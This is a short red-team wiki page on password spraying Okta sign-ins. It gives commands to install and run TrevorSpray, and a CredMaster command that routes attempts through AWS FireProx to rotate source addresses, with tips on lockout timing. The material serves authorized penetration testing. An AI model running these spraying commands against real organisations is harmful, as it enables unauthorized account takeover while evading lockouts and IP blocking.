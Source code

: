 # Okta

### Password Spraying

Password spraying Okta is just as easy as password spraying any other service, however, visibility can be difficult at times as Okta does not display if a user has been locked out. For this reason, it is recommended to configure password spray tooling to have longer lockouts, ensuring there are no business disruptions.

#### Spraying Okta with TrevorSpray

```bash
# Installation
pip install git+https://github.com/blacklanternsecurity/trevorproxy
pip install git+https://github.com/blacklanternsecurity/trevorspray

# Password Spraying
trevorspray -m okta -u $users -p $password
```

{% hint style="info" %}
After submitting the above command, TrevorSpray will ask for the subdomain of the company you're targeting $`.okta.com` This should have been identified during the reconaissance phase and is often `$companyname.okta.com`.&#x20;
{% endhint %}

#### Spraying Okta with CredMaster

```bash
# https://github.com/knavesec/CredMaster

python3 credmaster.py --plugin -u $users -p $passwords -a $useragents --config $config
```

CredMaster requires AWS access keys to setup FireProx, the following guide can be used to configure the appropriate permissions and start spraying:

{% embed url="https://bond-o.medium.com/aws-pass-through-proxy-84f1f7fa4b4b" %}
